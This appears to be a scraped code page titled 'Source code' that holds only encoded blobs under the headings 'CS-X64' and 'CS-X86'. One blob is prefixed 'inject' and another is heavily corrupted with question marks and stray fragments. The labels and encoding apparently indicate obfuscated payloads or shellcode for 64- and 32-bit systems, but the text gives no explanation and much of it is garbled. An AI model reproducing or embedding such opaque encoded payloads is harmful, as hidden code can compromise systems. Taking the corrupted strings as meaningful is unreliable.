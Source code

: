 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

wefik3?4|?2,?F;6,????%;???10?,?x?;14,????g??;1???8,N;2??2,7??;26,???y;????30,X???;?34?,G????;?38????,o;????42,4;????46,x;??50,o;??54,?C????;58,?X;6????2,b;???66,w;????7????0?,??h;74????,k?;78????,???@;???82,??k;86,?S?;9??0,m????;94,f?;98,H?;???102?,Y;1??06,??E;110?,z;11?4,?r;11??8?,p??;122?,???v;??1?26,b;???130,V????;?134?,Z;|h???A???rFC????0h%6???mlx9Y??Y?gxy??CNzU?2?7??0LAyv?hIXxD????nGCLM?o?Vn??B?4rN??L???xN????Bq????oyU2C?T9????l?X1????05bgD??vwD?ZehV????nDk5????w0@????wlv??kzUYS??09zm???nx0f3????l??jHzL??NY????VmA??E??vg??Hzhz????m??r????BVwpP???fBv9?I?T????b????xErVC????L3Z?=qyukyh

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
